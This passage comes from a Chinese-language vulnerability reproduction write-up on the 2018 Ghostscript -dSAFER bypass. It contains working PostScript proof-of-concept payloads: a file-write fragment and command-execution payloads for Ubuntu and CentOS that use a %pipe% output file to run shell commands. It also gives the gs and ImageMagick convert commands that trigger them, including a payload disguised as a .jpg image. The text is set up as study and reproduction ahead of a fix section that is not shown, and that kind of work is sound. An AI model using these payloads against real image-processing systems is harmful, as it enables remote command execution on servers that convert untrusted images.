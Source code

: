 ```
} put
FileToSteal (w) .tempfile
statusdict
begin
    1 1 .setpagesize
end
quit
```

将以上poc保存为poc.ps文件，并执行以下命令。

```bash
gs -q -sDEVICE=ppmraw -dSAFER  poc.ps
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2wnorhx2j20k90d2q6g.jpg)

#### 4.3命令执行

ubuntu poc：

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

centos poc：

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

这里我们是linux是Ubuntu发行版，故选择第一个poc进行测试。将以上poc保存为poc.jpg文件，并执行以下命令,测试对恶意图片文件进行格式转换。

```
/usr/local/bin/convert poc.jpg poc.jpg
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2woh43y3j20k706o0ua.jpg)

**注意：** 漏洞作者的[《More Ghostscript Issues: Should we disable PS coders in policy.xml by default?》](http://seclists.org/oss-sec/2018/q3/142)这篇文章里的convert命令不是ghostscript的，而是它的上游应用。可以是imagemagick，也可以是graphicsmagick。经过测试两个软件的convert命令都存在漏洞,我们这里复测的事imagemagick。

## 五、修复方式
